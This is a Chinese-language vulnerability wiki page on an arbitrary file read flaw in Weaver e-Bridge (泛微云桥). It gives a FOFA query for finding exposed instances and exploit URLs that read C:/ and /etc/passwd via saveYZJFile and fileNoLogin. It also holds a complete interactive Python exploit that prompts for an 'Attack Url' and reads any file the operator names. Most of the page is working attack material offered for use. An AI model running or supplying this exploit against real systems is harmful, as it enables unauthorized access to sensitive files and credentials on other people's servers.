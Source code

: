 # 泛微云桥 e-Bridge 任意文件读取

## 漏洞描述

泛微云桥（e-Bridge）是上海泛微公司在”互联网+”的背景下研发的一款用于桥接互联网开放资源与企业信息化系统的系统集成中间件。泛微云桥存在任意文件读取漏洞，攻击者成功利用该漏洞，可实现任意文件读取，获取敏感信息。

## 影响版本

> [!NOTE]
>
> 泛微云桥 e-Bridge 2018-2019 多个版本

## FOFA

> [!NOTE]
>
> title="泛微云桥e-Bridge"

## 漏洞复现

> [!NOTE]
>
> 分为两种，分别为 Windows 和 Linux

### Windows

访问 **http://xxx.xxx.xxx.xxx/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C:/&fileExt=txt**

![](http://wikioss.peiqi.tech/vuln/fanwei-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

成功返回 **id值**,说明含有此漏洞

调用查看文件接口访问 **http://xxx.xxx.xxx.xxx/file/fileNoLogin/id值**

![](http://wikioss.peiqi.tech/vuln/fanwei-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

### Linux

访问 **http://xxx.xxx.xxx.xxx/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt**

![](http://wikioss.peiqi.tech/vuln/fanwei-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

成功返回 **id值**,说明含有此漏洞

调用查看文件接口访问 **http://xxx.xxx.xxx.xxx/file/fileNoLogin/id值**

![](http://wikioss.peiqi.tech/vuln/fanwei-4.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞利用POC

> [!NOTE]
>
> 注意读取Linux系统文件时，需要完整路径
>
> 例如读取根目录下的 1.txt
>
> 应为 /1.txt 而不是 1.txt

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                         \033[0m')
    print('+  \033[34mVersion: 泛微云桥 e-Bridge                                          \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

# 判断操作系统 or 判断漏洞是否可利用
def POC_1(target_url):
    vuln_url_1 = target_url + "/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C:/&fileExt=txt"
    vuln_url_2 = target_url + "/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt"
    vuln_url_3 = target_url + "/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///&fileExt=txt"


    headers = {
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
                "Content-Type": "application/x-www-form-urlencoded"
    }
    try:
        response_1 = requests.get(url=vuln_url_1, headers=headers, verify=False, timeout=10)
        response_2 = requests.get(url=vuln_url_2, headers=headers, verify=False, timeout=10)
        response_3 = requests.get(url=vuln_url_3, headers=headers, verify=False, timeout=10)
        if "无法验证您的身份" in response_1.text and "无法验证您的身份" in response_2.text:
            print("\033[31m[x] 漏洞已修复，不存在漏洞 \033[0m")
            sys.exit(0)
        else:
            if "No such file or directory" in response_1.text:
                print("\033[32m[o] 目标为 Linux 系统\033[0m")
                id = re.findall(r'"id":"(.*?)"', response_3.text)[0]
                print("\033[32m[o] 成功获取id：{}\033[0m".format(id))
                return id,"linux"
            elif "系统找不到指定的路径" in response_2.text:
                print("\033[32m[o] 目标为 Windows 系统\033[0m")
                id = re.findall(r'"id":"(.*?)"', response_1.text)[0]
                print("\033[32m[o] 成功获取id：{}\033[0m".format(id))
                return id,"windows"

            else:
                print("\033[31m[x] 无法获取目标系统\033[0m")
                sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)

# 验证漏洞
def POC_2(target_url, id):
    file_url = target_url + "/file/fileNoLogin/{}".format(id)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    try:
        response = requests.get(url=file_url, headers=headers, verify=False, timeout=10)
        response.encoding = 'GBK'
        print("\033[32m[o] 成功读取：\n\033[0m{}".format(response.text))
    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)

# windows 文件读取
def POC_3(target_url, File):
    file_url = target_url + "/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///C:/{}&fileExt=txt".format(File)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    try:
        response = requests.get(url=file_url, headers=headers, verify=False, timeout=10)
        id = re.findall(r'"id":"(.*?)"', response.text)[0]
        print("\033[32m[o] 成功获取id：{}\033[0m".format(id))
        POC_2(target_url, id)
    except :
        print("\033[31m[x] 请求失败，无法读取文件 \033[0m)")

# linux读取文件
def POC_4(target_url, File):
    file_url = target_url + "/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file://{}&fileExt=txt".format(File)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    try:
        response = requests.get(url=file_url, headers=headers, verify=False, timeout=10)
        id = re.findall(r'"id":"(.*?)"', response.text)[0]
        print("\033[32m[o] 成功获取id：{}\033[0m".format(id))
        POC_2(target_url, id)
    except:
        print("\033[31m[x] 请求失败，无法读取文件 \033[0m)")


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    id,system = POC_1(target_url)
    POC_2(target_url, id)
    while True:
        if system == "windows":
            File = input("\033[35mFile >>> \033[0m")
            if File == "exit":
                sys.exit(0)
            else:
                POC_3(target_url, File)
        if system == "linux":
            File = input("\033[35mFile >>> \033[0m")
            if File == "exit":
                sys.exit(0)
            else:
                POC_4(target_url, File)

```

![](http://wikioss.peiqi.tech/vuln/fanwei-5.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)